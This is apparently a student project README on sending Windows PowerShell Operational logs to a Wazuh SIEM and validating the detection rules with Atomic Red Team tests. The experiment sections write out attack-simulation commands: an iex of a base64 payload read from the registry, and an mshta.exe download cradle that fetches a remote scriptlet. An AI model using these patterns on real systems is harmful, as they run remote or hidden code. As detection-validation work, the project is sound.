 # 🧪 PowerShell Log Source Integration with Wazuh – Sprint 11 Project

## Project Overview

This Sprint 11 project demonstrates the integration of Windows PowerShell Operational logs into a Wazuh SIEM deployment. By enabling native PowerShell logging features and writing custom detection rules, I achieved comprehensive visibility into advanced attacker techniques—such as obfuscated payloads, fileless execution, and mshta-based download cradles—using Atomic Red Team simulations.

**Role:** Detection Engineer / SOC Analyst
**Duration:** 1 week
**Environment:** CloudShare VMs (AD01, ART Workstation)
**Tools:** Wazuh, Windows EventChannel, Group Policy, Atomic Red Team, Kibana, PowerShell

---

## Key Modifications

1. **Group Policy Configuration**

   * Enabled **Script Block Logging** (Event ID 4104)
   * Enabled **Module Logging** (Event ID 4103)
   * (Optional) Enabled Transcription Logging for session records

2. **Wazuh Agent Setup**

   * Updated `ossec.conf` on AD01 to ingest `Microsoft-Windows-PowerShell/Operational` logs via `eventchannel`
   * Restarted `wazuh-agent` service to apply changes

3. **Custom Detection Rules**

   * Created rules in `local_rules.xml` on Wazuh Manager for `win.system.providerName == Microsoft-Windows-PowerShell`
   * Alerting on critical event IDs: `4104`, `4103`, `4688`

4. **Validation & Testing**

   * Executed three Atomic Red Team tests (T1027, Fileless Script, mshta Download Cradle)
   * Verified log ingestion and alerts via Kibana dashboard filters

---

## Experiments & Findings

### Experiment 1 – T1027: Obfuscated Files or Information

**Objective:** Detect base64-encoded PowerShell commands.
**Execution:**

```powershell
$sess = New-PSSession -ComputerName AD01 -Credential (Get-Credential)
Invoke-AtomicTest T1027 -Session $sess
Invoke-AtomicTest T1027 -Session $sess -Cleanup
```

**Findings:**

* Event ID 4104 captured decoded script blocks containing `FromBase64String` and `IEX`.
* Event ID 4103 logged module usage (`System.Text.Encoding`).
* Event ID 4688 showed the PowerShell process creation.

### Experiment 2 – PowerShell Fileless Script Execution

**Objective:** Simulate fileless registry-based payload.
**Execution:**

```powershell
Invoke-Command -Session $sess -ScriptBlock {
  reg.exe add "HKCU:\Software\Classes\AtomicRedTeam" /v ART /t REG_SZ /d "<Base64>" /f
}
Invoke-Command -Session $sess -ScriptBlock {
  iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp 'HKCU:\Software\Classes\AtomicRedTeam').ART)))
}
Invoke-Command -Session $sess -ScriptBlock {
  Remove-Item -Path "C:\Windows\Temp\art-marker.txt" -Force
  Remove-Item -Path "HKCU:\Software\Classes\AtomicRedTeam" -Force
}
```

**Findings:**

* 4104 logged decoded block writing `art-marker.txt`.
* 4103 tracked `[Convert]` and `[Text.Encoding]` usage.
* 4688 confirmed in-memory execution without intermediary files.

### Experiment 3 – PowerShell Invoke mshta.exe Download Cradle

**Objective:** Emulate a download cradle via `mshta.exe`.
**Execution:**

```powershell
Invoke-Command -Session $sess -ScriptBlock {
  cmd.exe /c "mshta.exe javascript:a=GetObject('script:https://.../mshta.sct').Exec();close()"
}
```

**Findings:**

* 4104 captured the script block with success message.
* 4688 revealed process tree: `cmd.exe` → `mshta.exe` → `powershell.exe`.
* 4103 optionally logged COM interactions.

---

## Conclusion & Lessons Learned

* **Visibility Gaps:** Sysmon alone missed critical PowerShell activity; enabling native logging was essential.
* **Detection Engineering:** Custom Wazuh rules successfully alerted on advanced techniques.
* **Validation Approach:** Real-world ATT\&CK simulations validated end-to-end logging and detection.

---

## References

### Reference 1

**Title:** What’s New in PowerShell: Script Block Logging
**Author:** Microsoft Docs Team
**Author’s affiliation:** Microsoft
**Date published:** January 19, 2023 (Last updated)
**Date accessed:** May 10, 2025
**URL:** [https://learn.microsoft.com/en-us/powershell/scripting/windows-powershell/whats-new/script-logging](https://learn.microsoft.com/en-us/powershell/scripting/windows-powershell/whats-new/script-logging)
**Description:**
This resource was essential in helping me understand how to configure Script Block Logging and Module Logging through Group Policy. It clarified what each logging method captures and which Event IDs are relevant for detection.

---

### Reference 2

**Title:** Atomic Red Team – Adversary Emulation Library
**Author:** Red Canary Security Team
**Author’s affiliation:** Red Canary
**Date published:** Ongoing open-source repository (initial release \~2017)
**Date accessed:** May 10, 2025
**URL:** [https://github.com/redcanaryco/atomic-red-team](https://github.com/redcanaryco/atomic-red-team)
**Description:**
This GitHub repository provided me with hands-on simulations of real-world attack techniques, including the three Atomic tests I used for my PowerShell logging experiments. It was the backbone of my threat emulation and detection validation.

---

### Reference 3

**Title:** MITRE ATT\&CK Technique T1027 – Obfuscated Files or Information
**Author:** MITRE Corporation
**Author’s affiliation:** MITRE
**Date published:** Technique version 2.3 as of February 2023
**Date accessed:** May 10, 2025
**URL:** [https://attack.mitre.org/techniques/T1027/](https://attack.mitre.org/techniques/T1027/)
**Description:**
This reference helped me understand the tactic behind obfuscated PowerShell commands and what to look for in logs. It validated why Script Block Logging is crucial for uncovering encoded or obfuscated command execution.

---

### Reference 4

**Title:** Atomic Test #11 – PowerShell Fileless Script Execution
**Author:** ATC Project Contributors
**Author’s affiliation:** ATC Project (Atomic Threat Coverage)
**Date published:** Public GitHub resource, last commit January 2024
**Date accessed:** May 10, 2025
**URL:** [https://github.com/atc-project/atomic-threat-coverage/blob/master/Atomic\_Threat\_Coverage/Triggers/T1002.md#atomic-test-11---powershell-fileless-script-execution](https://github.com/atc-project/atomic-threat-coverage/blob/master/Atomic_Threat_Coverage/Triggers/T1002.md#atomic-test-11---powershell-fileless-script-execution)
**Description:**
This resource provided the registry-based test I used in Experiment 2 to simulate a fileless PowerShell attack. It was useful for testing logging of decoded script execution without touching the file system.

---

### Reference 5

**Title:** PowerShell mshta Download Cradle – mgreen27
**Author:** Michael Green (@mgreen27)
**Author’s affiliation:** Independent Security Researcher
**Date published:** GitHub Pages site, last commit November 2022
**Date accessed:** May 10, 2025
**URL:** [https://github.com/mgreen27/mgreen27.github.io](https://github.com/mgreen27/mgreen27.github.io)
**Description:**
This was the basis for my third experiment, demonstrating how mshta.exe can be used to download and execute a remote script using PowerShell. It helped test process chain visibility and download cradle detection using Wazuh.

